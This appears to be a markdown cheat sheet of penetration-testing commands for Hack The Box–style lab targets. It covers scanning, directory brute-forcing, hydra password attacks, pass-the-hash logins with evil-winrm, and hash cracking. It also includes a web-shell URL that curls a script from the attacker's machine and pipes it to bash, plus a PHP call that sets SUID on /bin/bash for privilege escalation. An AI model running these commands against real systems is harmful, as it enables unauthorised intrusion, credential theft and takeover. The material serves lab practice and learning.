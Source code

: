 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password

### 🔓 Cracking Hashes with Hashcat
```bash
# Auto-detect hash mode (not recommended for reliability)
hashcat -a 0 hash.txt /home/kali/Documents/rockyou.txt

# Specified mode (Apache $apr1$ MD5)
hashcat -m 1600 -a 0 hash.txt /home/kali/Documents/rockyou.txt
```

### ⚡ Privilege Escalation via SUID Bash (PHP RCE)
```php
<?php exec("chmod +s /bin/bash"); ?>
```
Then on the target:
```bash
/bin/bash -p  # Run with elevated privileges if SUID is set
```

### 🛠️ Hydra Brute-Force Examples
```bash
# SSH login
hydra -L usernames.txt -P password.txt 10.129.226.117 ssh 

# HTTP Basic Auth Brute Force
hydra -L users.txt -P passwords.txt 10.129.54.238 http-get /admin
```

### 📂 FTP Enumeration with Anonymous Login
```bash
# Check FTP banner and anonymous login
ftp 10.129.54.238

# If you see code 230:
# 230 Login successful.
# You have access to browse and download/upload if permitted

# Listing files
ls

# Downloading a file
get filename.txt
```

### 🔐 SSH Usage Basics
```bash
# Connect to SSH server
ssh username@10.129.226.117

# Use custom port (if not default 22)
ssh -p 2222 username@10.129.226.117

# Use private key for authentication
ssh -i /path/to/private_key.pem username@10.129.226.117

# Run a single command over SSH
ssh username@10.129.226.117 'ls -la /var/www/html'

# Local Port Forwarding
# Forwards localhost:8080 to target:80 via SSH tunnel
ssh -L 8080:target.internal:80 username@10.129.226.117

# Remote Port Forwarding
# Opens port 9090 on the remote server and sends it to your local port 3000
ssh -R 9090:localhost:3000 username@10.129.226.117
```

### 📡 Checking Open Ports with `ss`
```bash
# List all listening TCP ports
ss -tln

# Breakdown:
# -t : TCP sockets
# -l : Listening sockets
# -n : Show port numbers (no DNS resolution)

# Example output:
# State     Recv-Q     Send-Q         Local Address:Port        Peer Address:Port
# LISTEN    0          128            0.0.0.0:22                0.0.0.0:*
```

### 🧾 SMB Enumeration with `smbclient`
```bash
# List available shares on target (anonymous login)
smbclient -L //10.129.226.117/ -N

# Connect to a specific share anonymously
smbclient //10.129.226.117/share_name -N

# Connect with username and password
smbclient //10.129.226.117/share_name -U username

# Example usage inside smbclient:
# smb: \> ls
# smb: \> get filename.txt
# smb: \> put exploit.sh

# Download a file without entering interactive mode
smbclient //10.129.226.117/share_name -N -c 'get secrets.txt'
```